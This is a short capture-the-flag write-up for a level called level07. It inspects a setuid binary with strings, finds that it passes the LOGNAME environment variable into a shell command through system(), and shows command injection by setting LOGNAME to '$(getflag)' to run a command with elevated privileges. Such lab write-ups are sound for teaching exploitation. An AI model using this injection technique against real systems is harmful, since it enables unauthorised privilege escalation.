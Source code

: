 # Level07
## Step by step
### 1. Locate files in `level07` home directory
  ```bash
  > ls
  -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
  ```
---

### 2. Analyze the `level07` executable
Execute the binary:
  ```
  > ./level
  level07
  ```
Using the `strings` command to inspect the binary reveals some useful details
  ```
  > strings level07
  /lib/ld-linux.so.2
  zE&9qU
  __gmon_start__
  libc.so.6
  _IO_stdin_used
  setresgid
  asprintf
  getenv
  setresuid
  system
  getegid
  geteuid
  __libc_start_main
  GLIBC_2.0
  PTRh 
  UWVS
  [^_]
  LOGNAME
  /bin/echo %s 
  ;*2$"
  ```
The binary uses:
- `/bin/echo`
- The environment variable `LOGNAME`
- The `getenv` function to retrieve the value of `LOGNAME`

---

### 3. Exploit the `level07` executable
The environment contains the variable `LOGNAME=level07`. By modifying this variable to execute `getflag`, we can retrieve the flag.
  ```bash
  > export LOGNAME='$(getflag)'
  > ./level07
  Check flag.Here is your token : XXX
  ```
  

